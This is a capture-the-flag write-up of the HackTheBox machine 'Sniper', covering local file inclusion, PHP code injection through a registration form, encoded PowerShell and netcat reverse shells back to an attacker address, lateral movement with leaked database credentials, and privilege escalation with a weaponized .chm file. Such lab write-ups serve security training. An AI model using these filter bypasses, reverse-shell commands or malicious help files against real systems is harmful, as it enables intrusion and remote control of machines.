# Sniper -- HackTheBox (write-up)

**Difficulty:** Medium
**Box:** Sniper (HackTheBox)
**Author:** dsec
**Date:** 2025-06-21

---

## TL;DR

### LFI on the blog's language parameter allowed session file inclusion and RCE via PHP code injection in user registration. Lateral movement with found DB creds. Privesc via weaponized .chm file.

---

## Target info

- Host: `10.129.17.159`
- Services discovered: `80/tcp (http)`, `445/tcp (smb)`

---

## Enumeration





Found LFI on the blog page.



Remote include **didn't load**.



Confirmed local file read with `\windows\win.ini`:



Contents visible at bottom of page source.

---

## Foothold

Read session file using PHPSESSID cookie:

```
\windows\temp\sess_ih4s8m8ueki8p7ark9oakklmjs
```





Injected PHP code via user registration. `<?php system("whoami") ?>` was filtered, but backtick execution worked:

```
a<?php echo `whoami` ?>b
```





Checked `registration.php` for filters:





Filtered chars: `-$[(_. ;&"\`

To bypass filters, base64-encoded a reverse shell command:

```bash
echo -n 'cmd /c "\\\\10.10.14.142\\share\\nc64.exe -e cmd 10.10.14.142 443"' | iconv -f ascii -t utf-16le | base64 -w0
```

Registered with name:

```
<?php echo `powershell /enc YwBtAGQAIAAvAGMAIAAiAFwAXAAxADAALgAxADAALgAxADQALgAxADQAMgBcAHMAaABhAHIAZQBcAG4AYwA2ADQALgBlAHgAZQAgAC0AZQAgAGMAbQBkACAAMQAwAC4AMQAwAC4AMQA0AC4AMQA0ADIAIAA0ADQAMwAiAA==` ?>
```

Set up listener and SMB server:

```bash
rlwrap -cAr nc -lnvp 443
smbserver.py share share/ -smb2support
```

Triggered via LFI on the session file:

```bash
curl -s -G 'http://10.129.17.159/blog/' --data-urlencode 'lang=\windows\temp\sess_a7ppoamkv03k9u3sl6sdsog4kb'
```



---

## Lateral movement

Found DB creds in config:



`dbuser:36mEAhz/B8xQ~2VM`



Used `Invoke-Command` to pivot as Chris:

```powershell
Invoke-Command -ScriptBlock { \\10.10.14.142\share\nc64.exe -e cmd 10.10.14.142 80 } -Credential $cred -Computer localhost
```



---

## Privilege escalation

Found `instructions.chm` in `C:\Users\Chris\Downloads\`.

Downloaded HTML Help Workshop from archive.org. On a Windows machine, generated a malicious `.chm` file:

```powershell
. .\Out-CHM.ps1
Out-CHM -Payload "\windows\system32\spool\drivers\color\nc64.exe -e cmd 10.10.14.142 443" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```

Transferred `doc.chm` to `C:\Docs` and `nc64.exe` to `\windows\system32\spool\drivers\color\`:

```
copy \\10.10.14.142\share\doc.chm .
copy \\10.10.14.142\share\nc64.exe \windows\system32\spool\drivers\color\
```

Set up listener and received admin shell within a minute:

```bash
rlwrap nc -lnvp 443
```

---

## Lessons & takeaways

- Check language/locale parameters for LFI and always view page source for file contents
- When character filters block standard PHP functions, try backtick execution and base64-encoded payloads
- `.chm` files can be weaponized for privilege escalation
---
